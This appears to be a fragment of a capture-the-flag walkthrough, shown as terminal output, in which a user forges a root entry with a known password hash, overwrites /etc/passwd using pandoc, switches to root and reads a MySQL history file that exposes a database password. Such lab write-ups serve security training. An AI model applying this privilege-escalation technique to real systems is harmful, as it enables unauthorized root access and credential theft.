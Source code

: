 ```bash
  -h                    --help                               
```

```bash
architect@...:~$ openssl passwd Passw0rd1!
Warning: truncating password to 8 characters
.lRSmBD/iDF6g
```

```bash
architect@...:~$ ls
passwd
...
```

```bash
architect@...:~$ nano passwd
```

```bash
architect@...:~$ cat passwd
root:.lRSmBD/iDF6g:0:0:root:/root:/bin/bash
```

```bash
architect@...:~$ pandoc passwd -t plain -o /etc/passwd
[WARNING] Could not deduce format from file extension 
  Defaulting to markdown
```

```bash
architect@...:~$ su root
Password: 
root@i...:/tmp# 
```

```bash
root@...:/# ls -lah
total 56K
drwx------  6 root root 4.0K Mar 10  2021 .
drwxr-xr-x 23 root root 4.0K Oct 13 21:25 ..
lrwxrwxrwx  1 root root    9 Mar 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
drwx------  3 root root 4.0K Jan 30  2021 .cache
drwx------  3 root root 4.0K Oct 13 22:13 .gnupg
drwxr-xr-x  3 root root 4.0K Dec 23  2020 .local
-rw-------  1 root root  11K Jan 30  2021 .mysql_history
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
-rw-r--r--  1 root root   66 Jan 27  2021 .selected_editor
drwx------  2 root root 4.0K Dec 30  2020 .ssh
-rwx------  1 root root 1.8K Jan 27  2021 SSH-TOTP-timeSimulator.py
-rw-r--r--  1 root root  227 Mar  9  2021 .wget-hsts
```

```bash
root@...:/#cat .mysql_history
CREATE DATABASE mybb;
CREATE USER 'mybbuser'@'localhost' IDENTIFIED BY 'prefixnulledcerv9';
GRANT ALL ON mybb.* TO 'mybbuser'@'localhost' WITH GRANT OPTION;
...
CREATE DATABASE modManagerv2;
show databases;
use modManagerv2;
create table members(user VARCHAR(100) NOT NULL, login_key VARCHAR(40) NOT NULL);
...
INSERT INTO members(user, login_key) 
...
LOAD DATA INFILE /tmp/data.txt INTO TABLE modManagerv2;
LOAD DATA INFILE '/tmp/data.txt' INTO TABLE modManagerv2;
LOAD DATA INFILE '/tmp/data.txt' INTO TABLE modManagerv2.members;
```